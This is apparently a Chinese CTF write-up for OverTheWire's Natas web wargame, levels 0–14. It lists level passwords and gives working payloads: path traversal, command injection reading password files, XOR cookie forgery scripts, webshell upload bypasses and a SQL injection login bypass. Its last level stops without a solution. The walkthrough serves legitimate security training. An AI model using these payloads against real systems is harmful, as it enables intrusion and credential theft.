## Level初始关

```
URL：http://natas0.natas.labs.overthewire.org/
账号：natas0
密码：natas0
查看源码得flag
g9D9cREhslqBKtcA2uocGHPfMZVzeFK6 
```


## Level0

```
URL：http://natas1.natas.labs.overthewire.org/
账号：natas1
密码：g9D9cREhslqBKtcA2uocGHPfMZVzeFK6
查看源码得flag
h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7 
```


## Level1

```
URL：http://natas2.natas.labs.overthewire.org/
账号：natas2
密码：h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7
源码没有，源码暴露了其他目录有css、js、files，简单翻一下，找到flag
```


http://natas2.natas.labs.overthewire.org/files/


## Level2

```
URL：http://natas3.natas.labs.overthewire.org/
账号：natas3
密码：G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
先不目录扫描，看一下提示，寻找robot.txt，访问/s3cr3t/，找到flag
tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```


不允许搜索引擎访问`/s3cr3t/`目录


## Level3

```
URL：http://natas4.natas.labs.overthewire.org/
账号：natas4
密码：tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
根据提示，natas4没有权限访问该站，而natas5有，抓包改Referer头，得到flag
Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
```


## Level4

```
URL：http://natas5.natas.labs.overthewire.org/
账号：natas5
密码：Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
明明登陆成功，却说没有登陆，想到可能是cookie认证出问题，burp抓个包，发现cookie中的loggedin字段值loggedin=0，修改为loggedin=10，拿到flag
fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```


## Level5

```
URL：http://natas6.natas.labs.overthewire.org/
账号：natas6
密码：fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
代码审计，提交正确的secret，拿到flag
jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```

看到源码，包含了include"includes/secret.inc"。后面是比较我们提交的POST是否等于secret的值，正确则打印flag



访问http://natas6.natas.labs.overthewire.org/includes/secret.inc，空白，查看源代码得



提交secret得到flag

## Level6

```
URL：http://natas7.natas.labs.overthewire.org/
账号：natas7
密码：jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
目录遍历，得到flag
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB 
```

查看源代码，发现提示flag位置在`/etc/natas_webpass/natas8`，可以尝试目录遍历读取



http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8，得到flag

## Level7

```
URL：http://natas8.natas.labs.overthewire.org/
账号：natas8
密码：a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB
代码审计，正确解出secret得到flag
Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd
```

可看到，POST提交的secret经过base64解码，反转，16进制转换等于$encodedSecret，才能拿到flag



我们编写php代码，求出secret

```php
<?php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";
$end = base64_decode(strrev(hex2bin($encodedSecret)));
print $end;
?>
```

提交拿到flag



## Level8

```
URL：http://natas9.natas.labs.overthewire.org/
账号：natas9
密码：Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd
代码审计，传入参数然后执行命令，进行绕过拿到flag
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```

查看源码，传入参数，然后执行命令



payload:`http://natas9.natas.labs.overthewire.org/?needle=|cat /etc/natas_webpass/natas10 #&submit=Search`或者直接`http://natas9.natas.labs.overthewire.org/?needle=. /etc/natas_webpass/natas10 #&submit=Search`

因为`grep -i . /etc/passwd`

```bash
grep   ：是一个在文件中搜索指定模式的命令行工具。它显示匹配模式的行。
-i     ：表示忽略大小写。这样，grep 在匹配过程中不会区分大小写。
.      ：在正则表达式中，. 表示匹配任意单个字符（除了换行符）。在这个上下文中，它意味着“匹配任何字符”，因此它将匹配文件中的每一行。
./flag ：这是你要搜索的文件或目录的路径。
grep -i [a-zA-Z] /etc/passwd
```

## Level9

```
URL：http://natas10.natas.labs.overthewire.org/
账号：natas10
密码：D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
代码审计，传入参数然后执行命令，进行绕过拿到flag
1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```

查看源码，如上直接payload`http://natas10.natas.labs.overthewire.org/?needle=. /etc/natas_webpass/natas11 #&submit=Search`



## Level10

```
URL：http://natas11.natas.labs.overthewire.org/
账号：natas11
密码：1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
代码审计，抓包收到一个默认值加密过后的cookie，查看代码反向推出key，然后再改cookie，得到flag
YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG
```

分析代码逻辑

```php
<?
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
//异或运算函数，但是我们不知道$key的值是多少，我可以写一个方法求出key
function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }
    return $outText;
}
//读取$_COOKIE，里面有data则进行解密还原，存入$mydata数组
function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true); //解除Cookie的值
    //后面是把解除的值返回给$mydata数组
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}
//设置Cookie，将存入的参数，进行编码处理写入到Cookie中
function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);
//服务端获取的http数据包，取出里面的bgcolor返回到$data
if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}
saveData($data);
?>
<?
if($data["showpassword"] == "yes") {
    print "The password for natas12 is <censored><br>";
}
?>
```

获取Cookie:`MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY=`



解出key:`KNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLK`，不知道为什么取`KNHL`

```php
<?php
  $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
  $data='MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY=';
  function xor_encrypt($in,$out) {
    $key = '';
    $text = $in;
    for($i=0;$i<strlen($text);$i++) {
      $key .= $text[$i] ^ $out[$i];
    }
	  return $key;
}
print xor_encrypt(json_encode($defaultdata),base64_decode($data));
?>
```

构造新的Cookie：`MGw7JCQ5OC04PT8jOSpqdmk3LT9pYmouLC0nICQ8anZpbS4qLSguKmkz`

```php
<?php
  $defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");
  function xor_encrypt($in) {
    $key = 'KNHL';
    $text = $in;
    $outText = '';
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }
    return $outText;
}
print base64_encode(xor_encrypt(json_encode($defaultdata));
?>
```

更改Cookie，得到flag:`YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG`



## Level11

```
URL：http://natas12.natas.labs.overthewire.org/
账号：natas12
密码：YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG
代码审计发现，上传的时候只修改了文件名和后缀，我们抓包改文件后缀即可绕过，拿到flag
lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
```

查看源码

```php
<?php
  //取得一串随机的字符串
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";
    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }
    return $string;
}
//把随机的字符串，替换成上传的文件的文件名
function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
//在服务端也同样修改文件名，与上传时的不一样
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
    if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
    } else {
?>
```

上传文件，抓包并修改后缀



访问我们上传的shell文件



## Level12

```
URL：http://natas13.natas.labs.overthewire.org/
账号：natas13
密码：lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
和上题差不多，多了一个exif_imagetype()函数，修改头文件类型，拿到flag
qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
```

分析源代码，多了一个`exif_imagetype()`函数

```php
<?php
//取一串随机字符串
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";
    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }
    return $string;
}
//修改文件名
function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {  //这个exif_imagetype函数会读取文件的头四个字节进行验证
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
    } else {
?>
```

先本地修改webshell的头文件，gif格式的是`47494638:GIF8`，抓包修改文件后缀



访问webshell



## Level13

```
URL：http://natas14.natas.labs.overthewire.org/
账号：natas14
密码：qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
简单sql注入，没有进行判断，万能密码绕过，拿到flag
TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB
```

分析源代码，似乎没有过滤username和passwd，查询语句闭合是双引号

```php
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }
    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>
```

我们尝试双引号的万能密码:`username=" or 1=1 #&passwd=1`



## Level14

```
URL：http://natas15.natas.labs.overthewire.org/
账号：natas15
密码：TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB


```

分析源代码，同样没有过滤username，但是又用户名是否存在这个点可以判断回显，可以构造盲注payload

```php
<?php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }
    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }
    mysqli_close($link);
} else {
?>
```

### 方法一

自己写脚本

### 方法二

sqlmap
